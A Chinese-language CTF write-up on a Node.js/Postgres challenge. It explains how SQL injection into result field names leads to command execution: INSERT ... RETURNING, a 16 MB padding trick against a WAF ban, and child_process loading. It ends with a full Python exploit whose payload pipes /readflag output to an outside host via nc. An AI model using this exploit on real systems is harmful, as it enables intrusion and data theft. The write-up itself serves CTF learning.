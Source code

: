 题目很明显是上面提到的node+Postgres导致的命令执行漏洞，但是其中有几个条件不符：

1、由于注入点在username，但是根据分号分割，所以我们没办法多语句执行。
2、waf过滤了斜杠。

一般意义上来说，造成上面漏洞的原因是，查询结果的字段名被拼接进入了语句，而对于常见的mysql来说，insert语句是没有返回的，所以我们没办法控制命令注入。

但是在postgres sql中，存在RETURNING语法，文档中的描述是这样的。

```
INSERT INTO table [ ( column [, ...] ) ]
    { DEFAULT VALUES | VALUES ( { expression | DEFAULT } [, ...] ) [, ...] | query }
    [ RETURNING * | output_expression [ AS output_name ] [, ...] ]
    
    
If the INSERT command contains a RETURNING clause, the result will be similar to that of a SELECT statement containing the columns and values defined in the RETURNING list, computed over the row(s) inserted by the command.
```

既然我们可以控制返回，我们就可以构造像select一样的返回，这样我们就可以绕过第一部分。

紧接着就是第二个问题，由于构造payload一定要用到反斜杠，所以我们必须想办法解决黑名单的问题。

我们先来看看这部分的流程，如果在你的请求中带上了黑名单词，那么ip就会被加入黑名单中，然后判断数据库中存不存在你的ip，进入ban流程。

那么如果我们想办法在insert这步让他报错，那么后面的select就不会有结果。

这里经过测试，只有一个办法有用，当SQL语句超过16M就会触发错误，`max_allowed_packet`错误是因为mysql限制了最大数据包的大小，导致如果我们构造一个足够长的数据包，就会导致插入错误。

这里有个有趣的事情是，orange师傅分享说到为了方便选手做题，他设置了自动清空黑名单的数据库，但是正因为这种情况，有人尝试条件竞争来绕过了waf。（删除之后使代码经过插入到判断前，就可以绕过：>）

最后就是要想办法构造命令执行，这部分内容都来自于P神的博客。

在实际利用中，会有一些问题：
```
单双引号都不能正常使用，我们可以使用es6中的反引号

Function环境下没有require函数，不能获得child_process模块，我们可以通过使用process.mainModule.constructor._load来代替require。

一个fieldName只能有64位长度，所以我们通过多个fieldName拼接来完成利用
```

最后贴上orange在github分享的exp

```
from random import randint
import requests

# payload = "union"
payload = """','')/*%s*/returning(1)as"\\'/*",(1)as"\\'*/-(a=`child_process`)/*",(2)as"\\'*/-(b=`/readflag|nc orange.tw 12345`)/*",(3)as"\\'*/-console.log(process.mainModule.require(a).exec(b))]=1//"--""" % (' '*1024*1024*16)


username = str(randint(1, 65535))+str(randint(1, 65535))+str(randint(1, 65535))
data = {
            'username': username+payload, 
                'password': 'AAAAAA'
                }
print 'ok'
r = requests.post('http://13.113.21.59:31337/reg', data=data);
print r.content
```


  [1]: http://static.zybuluo.com/LoRexxar/c1c9vp7cvb2z2ausx5biqr84/image.png
  [2]: http://static.zybuluo.com/LoRexxar/u3360luwi2cwwqdsukt59ckv/image.png